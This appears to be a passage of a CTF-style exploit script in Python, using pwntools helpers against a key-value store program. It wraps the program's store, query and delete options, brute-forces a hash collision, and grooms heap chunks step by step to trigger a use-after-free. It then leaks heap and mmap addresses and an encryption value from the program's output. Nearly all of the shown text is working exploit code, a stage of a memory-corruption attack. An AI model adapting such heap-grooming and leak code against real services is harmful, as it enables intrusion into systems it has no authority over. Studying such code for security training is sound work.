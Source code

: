 ```py
        res %= 0x1_0000_0000
    return res

def store(key_content, value_content, key_size = None, value_size = None):
    sla(b'option: ', b'1')
    if key_size is None:
        sla(b'key size: ', str(len(key_content)).encode())
        sa(b'key content: ', key_content)
    else:
        sla(b'key size: ', str(key_size).encode())
        sa(b'key content: ', key_content)
    if value_size is None:
        sla(b'value size: ', str(len(value_content)).encode())
        sa(b'value content: ', value_content)
    else:
        sla(b'value size: ', str(value_size).encode())
        sa(b'value content: ', value_content)

def query(key_content, key_size = None):
    sla(b'option: ', b'2')
    if key_size is None:
        sla(b'key size: ', str(len(key_content)).encode())
        sa(b'key content: ', key_content)
    else:
        sla(b'key size: ', str(key_size).encode())
        sa(b'key content: ', key_content)

def delete(key_content):
    sla(b'option: ', b'3')
    sla(b'key size: ', str(len(key_content)).encode())
    sa(b'key content: ', key_content)

def find_collision(victim: bytes):
    i = 0
    target = encrypt(victim)
    while True:
        if encrypt(str(i).encode()) == target and str(i).encode() != victim:
            return str(i).encode()
        i += 1

def hex2bytes(content: bytes):
    res = b''
    for i in range(len(content) // 2):
        res += p8(int(content.decode()[i*2], 16) * 0x10 + int(content.decode()[i*2+1], 16))
    return res

                                                    # 6543210
store(b'A', b'9889')                                # AAAAAAU
for i in range(5):
    query(b'A' * 0x30)                              # AFFFFFU
store(b'B', b'A' * 0x30)                            # UAAAAUU
store(find_collision(b'B'), b'B')                   # UAAAUUU
delete(b'B')                                        # FAAAUFU
for i in range(3):
    query(b'A' * 0x30)                              # FFFFUFU -> AAAAUAU
store(b'C', b'C' * 0x1000)                          # AAAUUUU
query(b'B')

leak = hex2bytes(io.recvline().split(b":")[1])
group_addr = u64(leak[0:8]) - 0x70
smallchunk = group_addr + 0x30
mmap_addr = u64(leak[8:16]) - 0x20
enc = u64(leak[32:40]) - 1
```
